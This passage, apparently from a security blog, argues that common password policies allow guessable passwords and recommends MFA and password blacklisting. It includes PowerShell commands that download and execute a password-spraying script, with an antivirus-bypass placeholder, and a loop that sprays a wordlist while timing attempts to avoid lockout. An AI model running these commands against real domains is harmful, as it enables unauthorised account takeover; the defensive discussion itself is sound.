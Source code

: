 I think, that the eight character password complexity recommendation was given due to cracking times via brute force. But already in 2019 it was easily possible to go through the whole character set of eight character passwords in [a few hours](https://www.theregister.com/2019/02/14/password_length/). So if we go by the offline cracking speed, we would need at minimum 10 character long passwords for NTLM (several weeks to months for cracking, depending on the hardware). But is that save? Employees and the human in general is lazy in forms of choosing passwords. So passwords like **Summer2021!**, **Winter#2020**, **CompanyName2021!**, **March2021!** meet the complexity requirements with all requirements but are still weak.

We as attackers can use for example `Domainpasswordspray` attacks with [DomainPasswordSpray.ps1](https://github.com/dafthack/DomainPasswordSpray) or many other public toolings to try one of the mentioned passwords against all Active Directory users. It´s as simple as:

```
AMSIBYPASS
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/dafthack/DomainPasswordSpray/master/DomainPasswordSpray.ps1')
Invoke-DomainPasswordSpray -Password Summer2021!
```

AMSIBYPASS? Take a look [here](https://s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/).

Maybe the first level support helpdesk is using a password like **Initial2021!** or **Start2021!** for new accounts or password reset requests. Trying this password - or a slight variation of the password - will result in many compromised user-accounts. You got a lockout policy? `¯\_(ツ)_/¯` - everyone can read the values for it via for example the `net accounts` command from a cmd.

```
$words = Get-Content C:\temp\wordlist.txt
ForEach ($Word in $Words){Invoke-Domainpasswordspray -Password $word; Sleep TimeToResetLockOutCount}
```

Other tools like [SharpSpray](https://github.com/jnqpblc/SharpSpray) take the delay values as parameter. There are way too many Password-Spray tools to list them all here. Some examples are for OWA [Mailsniper](https://github.com/dafthack/MailSniper), Office365 ([MSOLSpray](https://github.com/dafthack/MSOLSpray)), Lync ([LyncSniper](https://github.com/mdsecresearch/LyncSniper) or [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit)) and many many more.

The point is - the Microsoft policy doesn´t restrict _enough_, so that weak passwords cannot be chosen. Obviously the best thing you can do for the security level is using Multi-Factor-Authentication everywhere possible. This can also include the windows domain authentication with for example token/smartcards or even the fingerprint. Many companies, however, don´t want to implement this, because of the administrative overhead and therefore the higher costs.

So, what else can we do to avoid weak passwords for user-accounts? I really like and recommend the way of password blacklisting. There are Open Source solutions like [ad-password-protection](https://github.com/lithnet/ad-password-protection) or commercial solutions like [Specops Password Policy](https://specopssoft.com/product/specops-password-policy/). Administrators can add for example a wordlist with words that are not allowed. So the company name, names in general (family member names are often choosen with for example birthdates), Seasons, months and so on can be blacklisted. You can even integrate all [HaveIBeenPwned](https://haveibeenpwned.com/) passwords. A user could still choose **Summ3r2021!** which will fall in a wordlist+rule offline attack but many many user-accounts with the same password _should_ not happen again here.
